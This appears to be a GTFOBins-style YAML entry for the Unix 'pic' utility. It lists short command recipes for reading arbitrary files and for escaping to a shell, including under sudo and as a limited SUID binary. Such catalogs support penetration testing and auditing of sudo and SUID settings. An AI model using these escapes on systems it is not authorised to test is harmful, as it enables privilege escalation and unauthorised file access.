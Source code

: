 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        pic $LFILE
  shell:
    - code: |
        pic -U
        .PS
        sh X sh X
  sudo:
    - code: |
        sudo pic -U
        .PS
        sh X sh X
  limited-suid:
    - code: |
        ./pic -U
        .PS
        sh X sh X
---
```

